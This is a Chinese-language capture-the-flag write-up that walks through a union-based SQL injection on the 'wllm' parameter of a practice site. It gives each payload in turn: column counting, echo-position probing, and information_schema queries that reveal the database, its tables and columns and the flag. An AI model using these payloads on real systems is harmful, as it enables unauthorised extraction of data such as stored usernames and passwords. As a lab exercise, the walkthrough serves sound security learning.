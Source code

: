 ![image-20250403165731362](./assets/image-20250403165731362.png)

提示输入内容



查看源码

![image-20250403165753528](./assets/image-20250403165753528.png)



提示参数是wllm

尝试wllm=1

```
?wllm=1
```

![image-20250403165910057](./assets/image-20250403165910057.png)



尝试拼接1'

```
?wllm=1'
```

![image-20250403170146939](./assets/image-20250403170146939.png)

报错



测试回显数

```
?wllm=1' order by 4--+
```

![image-20250403170235182](./assets/image-20250403170235182.png)

```
?wllm=1' order by 3--+
```

![image-20250403170245941](./assets/image-20250403170245941.png)

即三个回显数





测试回显位

```
?wllm=-1' union select 1,2,3 --+
```

![image-20250403170322626](./assets/image-20250403170322626.png)

即第二第三位存在回显





查询当前数据库名及数据库版本信息

```
?wllm=-1' union select 1,database(),version() --+
```

![image-20250403170401724](./assets/image-20250403170401724.png)

数据库名test_db

版本信息MariaDB 10.2.29





查询表名

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.columns where table_schema="test_db"--+
```

![image-20250403171009725](./assets/image-20250403171009725.png)

得到表名：test_tb，users





查询users表中的字段名

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test_db" and table_name="users"--+
```

![image-20250403171037752](./assets/image-20250403171037752.png)

username,password



查询test_tb表中的字段名

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test_db" and table_name="test_tb"--+
```

![image-20250403171403916](./assets/image-20250403171403916.png)

id,flag



查询test_tb表中的字段信息

```
?wllm=-1' union select 1,2,group_concat(id,flag) from test_tb--+
```

![image-20250403171451263](./assets/image-20250403171451263.png)
